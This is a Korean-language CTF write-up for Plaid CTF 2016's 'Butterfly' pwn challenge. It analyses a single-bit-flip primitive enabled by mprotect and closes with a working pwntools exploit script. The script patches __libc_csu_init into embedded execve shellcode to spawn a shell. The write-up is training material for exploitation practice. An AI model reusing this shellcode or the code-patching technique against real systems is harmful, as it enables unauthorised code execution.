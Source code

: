 ```yaml
---
layout: post
title: "PCTF 2016 - Butterfly"
date: 2017-11-16 +0126
categories: [ctf, pwn]
tags: [ctf, pwn, exploit]
---
```

## I. 개요
 사실 얼마전부터 후이즈 블로그를 개설하게 되면서, 문제를 하나씩 풀어보면서 마크다운, 깃허브io 사용법을 익힐겸, 라이트업을 작성하기로 결정했다.<br />
 그에 대한 첫 번째 라이트업은 바로 Plaid CTF 2016의 Butterfly라는 문제!!<br />
 일단 문제 자체가 어렵거나 그런건 아니지만, 참신하게 접근할 수 있어서 작성해본다.<br />

## II. 바이너리 분석 
  바이너리는 크게 어려운 것은 없다, 일단 다음 코드를 살펴보도록 하자.<br />
  ```C
  v11 = *MK_FP(__FS__, 40LL);
  setbuf(_bss_start, 0LL);
  puts("THOU ART GOD, WHITHER CASTEST THY COSMIC RAY?");
  v3 = 1;
  if ( fgets(&v10, 50, stdin) )
  {
    v4 = strtol(&v10, 0LL, 0);
    v5 = v4;
    v6 = (_BYTE *)(v4 >> 3);
    v7 = (void *)((v4 >> 3) & 0xFFFFFFFFFFFFF000LL);
    if ( mprotect(v7, 0x1000uLL, 7) )
    {
      perror("mprotect1");
    }
    else
    {
      v3 = 1;
      *v6 ^= 1 << (v5 & 7);
      if ( mprotect(v7, 0x1000uLL, 5) )
      {
        perror("mprotect2");
      }
      else
      {
        puts("WAS IT WORTH IT???");
        v3 = 0;
      }
    }
  }
  v8 = *MK_FP(__FS__, 40LL);
  if ( *MK_FP(__FS__, 40LL) == v11 )
    LODWORD(v8) = v3;
  return v8;
}
  ```

  어렵다기보다는 그냥 왜이렇게 코드가 짧음? 이라는 소리가 먼저나오는 코드이다.<br />
  일단, 프로그램의 흐름은 입력값을 fgets로 받고(그렇기 때문에 NULL바이트도 넣을 수 있다. 기억해둘 것) 이 값을 strtol()함수로 문자열을 정수로 바꾸는데, 이 함수는 뒤에 아무리 많은 문자열이 존재하더라도 숫자형태의 문자들만 정수형으로 치환해주기 때문에 뒤에는 값이 더들어갈 수 있다.<br />
  그리고 그렇게 바뀐 주소는 마지막 3비트가 Right Shift되고, 그 결과값을 기준으로 rwx(0x7) 권한으로 mprotect로 권한이 제어된다.<br />
  여기서 우리가 알아야할 점이 하나 있는데, <br />
  여기서 사용되는 마지막 3비트는 이후 1바이트를 xor하는데에 사용된다는 것을 명심해야 한다. <br />
  ```C
      v3 = 1;
      *v6 ^= 1 << (v5 & 7);
  ```
  이 부분을 보면 알 수 있듯이, 이전에 Right Shift를 해주었던 3비트는 7(0b111)을 AND연산해줌으로써 구할 수 있고, 이렇게 구해준 마지막 3비트가 1을 Left Shift를 해주는데 사용된다. 즉, 우리는 어떤 위치의 값을 바꾸어줄때 다음과 같은 연산을 할 수 있다는 뜻이 된다.<br /><br />

  만약 다음과 같은 비트열이 있다고 해보자.
  ```Python
  bin(ord('A')) == 0b1000001
  ```
  우리는 이 값을 소문자 'a'로 바꾸고 싶은 상황이다. 그렇다면 다음과 같이 바꿔줄 수 있다.<br />
  먼저 소문자 'a'를 바이너리로 나타내보자.<br />
  ```Python
  bin(ord('a')) == 0b1100001
  ```

  차이점이라고는 6번째 비트가 1로 바뀌었다는 정도이다. 그렇다면 우리는 xor의 특성을 이용해서 다음과 같은 방법으로 bit flip을 해줄 수 있다<br />
  ```C
       v3 = 1;
      *v6 ^= 1 << (v5 & 7);
  ```
  해당 코드에서 0b1000001이 0b1100001이 되기 위해서는 0b0100000이 xor되어야 한다.<br />
  그렇다면 우리는 여기서 1이 5만큼 좌측으로 Shift되어야하는 것을 알고 있다.<br />
  이를 마지막 3비트에 채워서 보내면 내가 원하는 메모리에 있는 대문자 'A'를 'a'로 바꾸도록 만들 수 있다.<br />

  이제 대충 취약점이 어떤식으로 동작하는지 알았으니까 익스플로잇을 진행할 때다.<br />
  이 코드를 잘 보도록 하자.
  ```C
  if ( mprotect(v7, 0x1000uLL, 7) )
  ...
  if ( mprotect(v7, 0x1000uLL, 5) )
  ...

  ```

  해당 코드의 mprotect는 현재 할당된 메모리의 실행 권한을 변경해주는 함수인데, 실행 권한에는 다음과 같은 녀석들이 있다.<br />
  PROT_NONE, PROT_READ, PROT_WRITE, PROT_EXEC, PROT_SEM, PROT_SAO ...<br />
  나도 몰랐던 권한이 정말 많다. 이중에서 우리가 알아야하는 녀석들은 PROT_READ, PROT_WRITE, PROT_EXEC 이 세가지이다.<br />

  여기서 PROT_WRITE는 쓰기 권한, PROT_READ는 읽기 원한을 의미하며, PROT_EXEC는 실행 권한을 의미한다.<br />
  일반적으로 실행권한은 rwx로 표현하며, 이렇게 3가지 권한이 할당되었을 때는 7으로 표현한다. 2진수 단위를 생각하면 편하다.<br />
  그렇다면 5라는 권한은 어떻게될까? 당연히 r-x라는 권한이 되며 이는 5를 의미한다.<br />

  여기서 mprotect를 이용해서 굳이 메모리 영역을 7로 권한을 조절해준 후, 다시 5로 바꿔주는 이유는 무엇일까?<br />
  그 이유는 바로 이 문제의 공격 방법에 있다.<br />
  실제로 프로그램 코드도 실행중인 프로세스의 가상 메모리 영역에 할당되어서 사용이 된다. 그렇기 때문에 코드 영역도 권한만 바꾸어준다면 WRITE권한을 가질수도 있게 된다.


  ```
  .text:0000000000400860                 add     rsp, 48h
.text:0000000000400864                 pop     rbx
.text:0000000000400865                 pop     r14
.text:0000000000400867                 pop     r15
.text:0000000000400869                 pop     rbp
.text:000000000040086A                 retn
  ```

  이 부분은 main함수의 끝 부분에 위치한 함수 에필로그 영역이다. (FTZ나 LOB를 해봤으면 에필로그가 무엇인지는 안다고 가정한다.)<br />
  해당 영역에서는 add rsp, 0x48을 통해서 이전에 사용된 메모리 영역을 다시 복구해주고 있는데, 여기서 0x48에 해당하는 OpCode를 1바이트 해당 취약점으로 수정함으로써, retn 명령이 실행되는 시점의 rsp 포인터를 우리가 입력해준 데이터가 들어있는 메모리로 바꿔줄 수 있다.<br />

  그리고 쓰기 권한을 부여하는 것이기 때문에 기존에 존재하는 메모리 영역을 바꾸는 것도 가능하다.<br />
  예를들면 다음과 같다.<br /><br />

  ```C
  void __fastcall _libc_csu_init(unsigned int a1, __int64 a2, __int64 a3)
{
  __int64 v3; // r13@1
  __int64 v4; // rbx@1
  signed __int64 v5; // rbp@1

  v3 = a3;
  v4 = 0LL;
  v5 = &_do_global_dtors_aux_fini_array_entry - _frame_dummy_init_array_entry;
  init_proc();
  if ( v5 )
  {
    do
      ((void (__fastcall *)(_QWORD, __int64, __int64))_frame_dummy_init_array_entry[v4++])(a1, a2, v3);
    while ( v4 != v5 );
  }
}
  ```

  이 녀석은 _libc_csu_init이라는 함수인데, 프로그램이 시작해서 _start 함수로 진입하였을 때, main함수를 실행하기 이전에 처리해주는 함수 정도로 생각하면 되겠다. (정확한 역할은 나중에 설명하도록 하겠다.)<br />
  이 녀석도 쓰기권한이 기존에 없었을 뿐이지, 우리가 만약 mprotect로 실행권한을 바꿔준다면 해당 영역의 코드를 우리가 원하는 어셈블리로 패치하는 것도 가능해진다.<br />
  나는 이를 이용해서 해당 영역을 64bit ShellCode로 바꾸어주었고, Return Address를 해당 주소로 이동시켜서 쉘을 획득했다.<br />

  Exploit Code
  ```Python
  #!/usr/bin/python
from pwn import *

elf = ELF("./butterfly")
shell = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
with open("csu.bin", "rb") as f:
	csu = f.read()
csu_addr = elf.symbols['__libc_csu_init']

p = process("./butterfly")
print p.recvuntil("RAY?\n")

put = (0x400863 << 3) + 0x7
put1 = 33571614
payload = str(put1) + "A" * 32
payload += p64(0x400788)

put2 = (0x4007c5 << 3) + 0x1

p.sendline(payload)
print p.recvuntil("RAY?\n")

payload = str(put2) + "A" * 32
payload += p64(0x400788)
p.sendline(payload)
print p.recvuntil("RAY?\n")

for cnt in range(0, len(shell)):
    csu_byte = ord(csu[cnt])
    #print "[*] csu_bin : " + bin(csu_byte)
    shell_byte = ord(shell[cnt])
    #print "[*] shell_bin : " + bin(shell_byte)
    for i in range(8):
        bit_csu = csu_byte & (0x1 << i)
        if (bit_csu != (shell_byte & (0x1 << i))):
            payload = str(((csu_addr + cnt) << 3) | (i))
            payload += "A" * 32
            payload += p64(0x400788)
            p.sendline(payload)
            p.recvuntil("RAY?\n")

p.sendline("A" * 40 + p64(csu_addr))

p.interactive()
  ```